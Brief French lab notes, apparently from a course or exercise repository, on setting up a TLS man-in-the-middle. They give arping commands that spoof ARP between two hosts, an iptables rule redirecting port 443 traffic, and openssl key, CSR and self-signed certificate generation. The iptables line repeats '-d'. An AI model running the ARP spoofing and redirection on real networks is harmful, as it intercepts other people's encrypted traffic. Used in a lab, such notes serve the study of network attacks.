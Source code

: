 1) lancement d'un serveur tls avec un certificat
openssl s_server -cert server.crt -key server.key -accept 443

2) mitm part

arping -i eth0 -U -S 192.166.N.1 192.166.N.2
arping -i eth0 -U -S 192.166.N.2 192.166.N.1

3) parametrage du nat

sudo iptables -t nat -F (flush la table nat)
/*redirige 1 vers 2*/
iptables -t nat -A PREROUTING -p tcp -d -d 192.166.N.1 -s 192.166.N.2 --dport 443 -j REDIRECT

echo "base64word" | base64 --decode

mohanpedala pour un bon tuto

GENERATION DE CLE:

openssl genrsa -out pkey.pem 2048

(-pubout pour extraire)
openssl rsa -in pkey.pem -pubout -out publickey.crt

GENERATION DE CSR:
openssl req -key pkey.pem -new -out domain.csr

GENERATION de CERTIF:
openssl x509 -signkey pkey.pem -in domain.csr -req -days 365 -out domain.crt

SERVEUR TLS PYTHON:
page d'oborichkin (tls server)

